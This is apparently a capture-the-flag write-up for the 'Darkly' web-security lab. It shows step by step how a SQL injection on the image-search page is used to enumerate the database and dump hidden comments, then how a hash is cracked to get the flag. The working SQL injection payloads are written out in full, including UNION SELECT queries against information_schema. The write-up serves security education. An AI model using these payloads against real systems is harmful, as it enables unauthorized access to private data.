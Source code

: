 # SQL Injection (searchimg)

## Vulnerability

At the middle of the page, there is a `SEARCH IMAGE` button to: [`index.php?page=searchimg`](`http://darkly/?page=searchimg`).

The page contains an input and a button.
Giving an empty input and clicking on submit gave us nothing.

We can check for SQL injection by doing a simple query: [[run]](<http://darkly/?page=searchimg&id=1+OR+true&Submit=Submit#>)
```sql
1 OR true
```

Give the result:
```
ID: 1 OR true 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR true 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR true 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR true 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR true 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Since we can't blindly explore the database, we have to extract some metadata first.

The first one is the table name using the following query: [[run]](<http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60SCHEMA_NAME%60%2C+1+FROM+%60information_schema%60.%60SCHEMATA%60%29%3B&Submit=Submit#:~:text=Title%3A%201%0AUrl%20%3A-,Member_images,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `SCHEMA_NAME`, 1 FROM `information_schema`.`SCHEMATA`);
```

We can now see the tables name:
- `information_schema`
- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

Since the challenge seems to be an SQL Injection, let's take `Member_images`.

Now we need to extract the tables name: [[run]](<http://darkly/?page=searchimg&id=1+UNION(SELECT+%60TABLE_NAME%60,+%60TABLE_SCHEMA%60+FROM+%60information_schema%60.%60TABLES%60);&Submit=Submit#:~:text=Title%3A%20Member_images%0AUrl%20%3A-,list_images,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

By filtering in the data, we can see that there is only one table: `list_images`.

Now we need to extract the columns name: [[run]](<http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60TABLE_NAME%60%2C+%60COLUMN_NAME%60+FROM+%60information_schema%60.%60COLUMNS%60%29%3B&Submit=Submit#:~:text=information_schema%60.%60COLUMNS%60)%3B%20%0ATitle%3A-,id,-Url%20%3A%20list_images>)
```sql
1 UNION(SELECT `TABLE_NAME`, `COLUMN_NAME` FROM `information_schema`.`COLUMNS`);
```

By filtering in the data, we now know the column names:
- `id`
- `url`
- `title`
- `comment`

Only the last contain interesting informations.

By querying them, we know what to do next: [[run]](http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60id%60%2C+%60comment%60+FROM+%60list_images%60%29%3B&Submit=Submit#:~:text=1928e8083cf461a51303633093573c46)
```sql
1 UNION(SELECT `id`, `comment` FROM `list_images`);
```
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
1928e8083cf461a51303633093573c46:albatroz:MD5
```

So, the flag is:
```
sha256(lower('albatroz'))
```

## Possible Fix

- Use parameterized query.
